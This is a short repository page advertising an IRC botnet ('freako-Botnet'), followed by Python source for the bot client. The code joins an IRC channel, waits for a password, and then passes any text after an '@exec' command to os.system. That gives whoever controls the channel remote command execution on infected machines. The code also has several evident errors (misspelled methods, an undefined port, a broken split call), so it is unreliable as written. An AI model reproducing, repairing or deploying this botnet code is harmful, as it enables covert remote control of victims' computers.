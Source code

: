 # freako-Botnet
This botnet is now available
#conding: utf-8

import socket, os
import sys
import time
import random
from re import search
import ctypes, sys

def color(text, color):
	std = ctypes.windll.kernel32.GetStdHandler(-11)
	for i in range(0, len(color)):
		ctypes.windll.kernel32.SetConsoleTextAttribute(std, color[i])
		sys.stdout.write(text)
	ctypes.windll.kernel32.SetConsoleTextAttribute(std, 7)


sever = "irc address"
port = port number
canal = "#HashtagName"
nick = "bot"
senha = "123"

c = random.randint(0, 10000)
nick = nick + str(c)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connet((server, port))
s.send("NICK %s\r\n" % (nick))
s.send("USER "+ nick + " " + nick + " :.\n")
s.send("Join %s\r\n", (canal))
time.sleep(2)

verif = False
if verif != True:
	dados = s.recv(5000)
	color(dados, color=[9])
	if dados[0:4] == "PING":
	s.send(dados.replace("PING", "PONG"))
	
if search("@conn %s" % senha, dados):
	s.send("PRIVMSG %s : Connectado com sucesso! " % (canal))
	verif = True
	
while(1):
	dados = s.recv(5000)
	color(dados, color=2)
	if dados[0:4] == "PING":
		s.send(dados.replace("PING", "PONG"))
		
	if search("@exec", dados):
		dados = dados.split("@exec")
		dados = dados[1]/split("\r\n")
		os.system(dados[0])
		s.send("PRIVMSG %s : Comando executado com sucesso! " % (canal))
